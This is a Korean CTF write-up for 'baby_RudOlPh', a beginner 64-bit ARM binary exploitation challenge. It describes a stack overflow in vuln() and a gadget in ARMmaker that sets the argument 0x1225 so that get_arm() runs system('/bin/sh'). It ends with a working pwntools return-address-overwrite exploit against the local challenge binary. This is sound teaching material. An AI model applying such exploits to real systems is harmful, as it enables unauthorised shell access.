

baby_RudOlPh는 baby 시리즈 답게 이번 Christmas CTF에서 가장 많은 솔버가 나왔던 문제 중 하나입니다.


바이너리를 받고 보호기법과 아키텍쳐를 확인해보면 64bit ARM이고, NX bit만 걸려있는걸 확인할 수 있습니다.


분석해보면 vuln이라는 함수를 대놓고 줍니다. read 함수를 호출하는데 0x100만큼 받아서 stack overwflow가 발생하네요




`get_arm` 함수를 보면 첫 번째 인자의 값이 `0x1225` 면 `system("/bin/sh")`을 실행해 쉘을 획득할 수 있습니다.


`ARMmaker` 함수에는 인자를 세팅 할 수 있는 gadget이 있네요.

1. `vuln` 의 return address를 `ARMmaker`의 gadget으로 overwrite
2. gadget을 통해 인자를 `0x1225`로 세팅하고 `get_arm` 호출
3. get shell!


# Exploit

```python
from pwn import *

p = process("./baby_RudOlPh")
context.log_level = "debug"
p.recvuntil("\\n")

payload = b"A"*72
payload += p64(0x400724)
payload += p64(0x1225) + b"A"*16
payload += p64(0x400738)

p.sendline(payload)
p.interactive()
```


뉴비용 포너블 문제를 내려는데 그냥 내면 심심해서 64bit ARM으로 내봤습니다 ㅎㅎ 역시 많은 분들이 풀어주셨습니다! 

(문제 만드는 시간보다 도커에 세팅하는데 드는 시간이 더 오래 걸렸던 건 비밀..)